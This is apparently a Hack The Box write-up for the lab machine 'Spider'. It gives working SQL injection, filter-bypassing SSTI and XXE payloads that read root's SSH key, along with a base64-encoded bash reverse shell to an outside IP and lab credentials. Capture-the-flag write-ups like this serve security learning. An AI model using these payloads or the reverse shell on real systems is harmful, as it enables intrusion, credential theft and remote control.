

<p align="right">   <a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"></a>
</p>

# Enumeration

**IP-ADDR:** 10.10.10.243 spider.htb

**nmap scan:**
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 28:f1:61:28:01:63:29:6d:c5:03:6d:a9:f0:b0:66:61 (RSA)
|   256 3a:15:8c:cc:66:f4:9d:cb:ed:8a:1f:f9:d7:ab:d1:cc (ECDSA)
|_  256 a6:d4:0c:8e:5b:aa:3f:93:74:d6:a8:08:c9:52:39:09 (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: Did not follow redirect to http://spider.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

* Hostname: **spider.htb**
* There is some rate limiting on http server found from html comment. `<!-- We have enabled rate limiting to keep pesky hax0rs from attacking our service. -->`
* webpage have login/register options


Found flask auth token in webapp.
```bash
❯ curl -I 'http://spider.htb/'
HTTP/1.1 200 OK
Server: nginx/1.14.0 (Ubuntu)
Date: Thu, 17 Jun 2021 09:49:00 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 11273
Connection: keep-alive
Vary: Cookie
Set-Cookie: session=eyJjYXJ0X2l0ZW1zIjpbXX0.YMsajA.QOGddQTsnFBCqN_3RTIpssfM3Mg; HttpOnly; Path=/ 
```

it contains a token based cookie.

Decoding it found that it is not jwt token
```bash
❯ echo eyJjYXJ0X2l0ZW1zIjpbXX0.YMsajA.QOGddQTsnFBCqN_3RTIpssfM3Mg | base64 -d
{"cart_items":[]}base64: invalid input
```

Another popular token based auth is flask-token, there is a tool to verify/decode flask token [flask-unsign](https://pypi.org/project/flask-unsign/)
```bash
❯ flask-unsign --decode --server 'http://spider.htb/'
[*] Server returned HTTP 200 (OK)
[+] Successfully obtained session cookie: eyJjYXJ0X2l0ZW1zIjpbXX0.YMsb5g.iZAznu0IlWV_Kt5HcYjH2XHXUsk
{'cart_items': []}
```

## XSS *not useful(?)*

Registration page have character limit for username


After register, get login page with UUID in url parameter


changing value of the UUID parameter, changes the username field but `"` do something else.


because it injected in the html code, and get xss injection with `"><script>alert(1)</script>`


# Foothold

Extract flask auth token secret key with ssti than exploit sql inaction in auth token to get user creds. From admin panel found blind ssti and get reverse shell.

## SSTI

After login, get extra option "User information" which show user information and interesting thing is that these input fields are readonly


Trying SSTI on username field with `{{7*7}}` and get math output on "User information" page 


but because of the character limit we can not do much with it but it is a flask app(probably template engine `jinja2`, but it is python) so we can dump config file and get the secret key with `{{config}}`


```py
<Config {'ENV': 'production', 'DEBUG': False, 'TESTING': False, 'PROPAGATE_EXCEPTIONS': None, 'PRESERVE_CONTEXT_ON_EXCEPTION': None, 'SECRET_KEY': 'Sup3rUnpredictableK3yPleas3Leav3mdanfe12332942', 'PERMANENT_SESSION_LIFETIME': datetime.timedelta(31), 'USE_X_SENDFILE': False, 'SERVER_NAME': None, 'APPLICATION_ROOT': '/', 'SESSION_COOKIE_NAME': 'session', 'SESSION_COOKIE_DOMAIN': False, 'SESSION_COOKIE_PATH': None, 'SESSION_COOKIE_HTTPONLY': True, 'SESSION_COOKIE_SECURE': False, 'SESSION_COOKIE_SAMESITE': None, 'SESSION_REFRESH_EACH_REQUEST': True, 'MAX_CONTENT_LENGTH': None, 'SEND_FILE_MAX_AGE_DEFAULT': datetime.timedelta(0, 43200), 'TRAP_BAD_REQUEST_ERRORS': None, 'TRAP_HTTP_EXCEPTIONS': False, 'EXPLAIN_TEMPLATE_LOADING': False, 'PREFERRED_URL_SCHEME': 'http', 'JSON_AS_ASCII': True, 'JSON_SORT_KEYS': True, 'JSONIFY_PRETTYPRINT_REGULAR': False, 'JSONIFY_MIMETYPE': 'application/json', 'TEMPLATES_AUTO_RELOAD': None, 'MAX_COOKIE_SIZE': 4093, 'RATELIMIT_ENABLED': True, 'RATELIMIT_DEFAULTS_PER_METHOD': False, 'RATELIMIT_SWALLOW_ERRORS': False, 'RATELIMIT_HEADERS_ENABLED': False, 'RATELIMIT_STORAGE_URL': 'memory://', 'RATELIMIT_STRATEGY': 'fixed-window', 'RATELIMIT_HEADER_RESET': 'X-RateLimit-Reset', 'RATELIMIT_HEADER_REMAINING': 'X-RateLimit-Remaining', 'RATELIMIT_HEADER_LIMIT': 'X-RateLimit-Limit', 'RATELIMIT_HEADER_RETRY_AFTER': 'Retry-After', 'UPLOAD_FOLDER': 'static/uploads'}>
```

## SQLi in auth token

While testing token parameters found sql injection in `uuid` parameter

**Payload:** `' OR 1=1 #` in `UUID` field

Token generate with found secret key with `flask-unsign` tool
```bash
❯ flask-unsign --sign --cookie "{'cart_items': [], 'uuid': '\' or 1=1 #'}" --secret 'Sup3rUnpredictableK3yPleas3Leav3mdanfe12332942'
eyJjYXJ0X2l0ZW1zIjpbXSwidXVpZCI6Iicgb3IgMT0xICMifQ.YMuViQ.0ua4DgajELzCT9u7cIDzw9cTpGE

❯ curl -s 'http://spider.htb/' -b 'session=eyJjYXJ0X2l0ZW1zIjpbXSwidXVpZCI6Iicgb3IgMT0xICMifQ.YMuViQ.0ua4DgajELzCT9u7cIDzw9cTpGE' | grep Logout | grep -o -P '(?=\().*(?<=\))'
(logged in as chiv)
```

`uuid` is a authenticated user identifier and injecting "True" statement bypass authentication.

Testing for UNION based sql injection


Extracting data from database
```sql
--get current database name
UNION SELECT database()
--extract tables from current db
UNION SELECT group_concat(table_name) FROM information_schema.tables WHERE table_schema='shop'
--dump all columns from table
UNION SELECT group_concat(column_name) from information_schema.columns where table_name ='users'
--dump colum content
UNION SELECT group_concat(uuid,':',name,':',password) from shop.users
```


<!--129f60ea-30cf-4065-afb9-6be45ad38b73:chiv:ch1VW4sHERE7331-->

Login with user chiv's uuid and password get admin panel


found web directory from "View messages"


## Blind restricted SSTI

* Good blog on [SSTI in jinja2](https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/)

Directory `/a1836bb97e5f4ce6b3e8f25693c1a16c.unfinished.supportportal` takes to support forum


"Contact number or email" field through some interesting error that relate to SSTI


Using some bypass techniques and replacing blocked characters

"`{{ }}`" replaced with `%257B%257B %257D%257D` Double url encoded.

"`.`" replaced with `[' ']`

"`_`" replaced with `\x5f`

"`'`" replaced with `"`

Because this is a blind SSTI we can not manually found the offset of required class, to solve this i use `for` loop and `if` statement to find that but `for if` are also blocked.


"`for`" replaced with `with`

`with` allows common `try…except…finally` usage patterns to be encapsulated for convenient reuse. [EXAMPLE](https://www.geeksforgeeks.org/with-statement-in-python/)

* Using **`with`** statement because it is smiler to `try` but in clean manner and also `try` is not supported in the template language. 
* Get the syntax for `with` statement from jinja2 [docs](https://jinja.palletsprojects.com/en/3.0.x/templates/#with-statement)

      
          
          {{ foo }}
      


and final crafted payload, i use [decimal formate](https://www.ipaddressguide.com/ip) ip address because `.` is blocked.
```py
 %257B%257Bssti%257D%257D 
```


**Getting reverse shell**

Generate encoded reverse shell
```bash
❯ echo -n "/bin/bash -c 'bash -i >& /dev/tcp/10.10.15.71/4141 0>&1'" | base64
L2Jpbi9iYXNoIC1jICdiYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE1LjcxLzQxNDEgMD4mMSc=

echo -n L2Jpbi9iYXNoIC1jICdiYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE1LjcxLzQxNDEgMD4mMSc= | base64 -d | bash
```
```py
 %257B%257Bssti%257D%257D 
```


# Privesc

* Found user "chiv" ssh key in his home folder.
* `/var/www/webapp` contains the webapp files which running on port 80
* Found database creds from `/var/www/webapp/app.py`: `chivato:rghorsfruUEFHEfhes83214`
* There is a another http server running on localhost on port 8080
* There is a another folder name "game" which probably running on port 8080, but don't have permission to access into it.

      (remote) chiv@spider:/var/www$ cd game/
      bash: cd: game/: Permission denied


<!--creds
chiv:ch1VW4sHERE7331
chivato:rghorsfruUEFHEfhes83214
-->

**Forward port 8080 with ssh** (*I use `cat` than `shift` + `~` + `c` to get into ssh prompt because i am using zsh, if you are using bash than you can directly use `shift` + `~` + `c`*)


There is nothing interesting on wepapp expect the "cookie"


Cookie decode with `flask-unsign` and get some xml data, which parsed with [lxml](https://pypi.org/project/lxml/)].



## XXE to inject payload in auth token

cookie contains xml and after some testing, notice that changing `version` value in post data parameter reflated in the cookie. 


We don't know the private key for this token but we can inject code.

Injecting xml ENTITY from `version` parameter and call it from `username`
```xml
username=&xxe;&version=1.0.0--><!DOCTYPE replace [ <!ENTITY xxe "xxe injection"> ]><!--
```


And now if we send this cookie to request `/site`, xxe reflected on the page.


Now that xxe confirmed we can read file from system and this is running as root so we can read root file.
```xml
username=&xxe;&version=1.0.0--><!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///root/root.txt"> ]><!--
```


Getting root shell with ssh key
```xml
username=&xxe;&version=1.0.0--><!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///root/.ssh/id_rsa"> ]><!--
```

```bash
❯ ssh -i root_rsa root@spider.htb
root@spider:~# id
uid=0(root) gid=0(root) groups=0(root)
root@spider:~# 
```
